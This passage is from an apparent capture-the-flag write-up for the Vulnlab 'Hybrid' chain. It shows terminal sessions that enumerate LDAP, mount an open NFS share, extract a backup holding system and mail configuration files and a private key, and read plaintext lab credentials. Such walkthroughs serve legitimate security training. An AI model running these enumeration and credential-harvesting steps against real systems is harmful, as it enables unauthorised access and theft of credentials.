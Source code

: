 Ran `ldapdomaindump` and failed.

```
┌──(destiny㉿falcon)-[~/tools-backup/ldapsearch-ad]
└─$ ldapdomaindump ldap://10.10.173.101
[*] Connecting as anonymous user, dumping will probably fail. Consider specifying a username/password to login with
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

Started pentesting NFS shares on Host-B and found a share.

```
┌──(destiny㉿falcon)-[~/tools-backup/ldapsearch-ad]
└─$ showmount -e 10.10.173.102
Export list for 10.10.173.102:
/opt/share *
```

We mounted it and found a tar file.

```
┌──(destiny㉿falcon)-[~/tools-backup/ldapsearch-ad]
└─$ sudo mount -t nfs -o vers=3,nolock 10.10.173.102:/opt/share /mnt/new_back

┌──(destiny㉿falcon)-[~/tools-backup/ldapsearch-ad]
└─$ cd /mnt/new_back 

┌──(destiny㉿falcon)-[/mnt/new_back]
└─$ ls                                 
backup.tar.gz
```

Extracted the tar file.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Chains/Hybrid]
└─$ tar -xvzf backup.tar.gz

etc/passwd
etc/sssd/sssd.conf
etc/dovecot/dovecot-users
etc/postfix/main.cf
opt/certs/hybrid.vl/fullchain.pem
opt/certs/hybrid.vl/privkey.pem
```

Found possible credentials :

```
┌──(destiny㉿falcon)-[~/…/Chains/Hybrid/etc/dovecot]
└─$ cat dovecot-users 
admin@hybrid.vl:{plain}Duckling21
peter.turner@hybrid.vl:{plain}PeterIstToll!
```
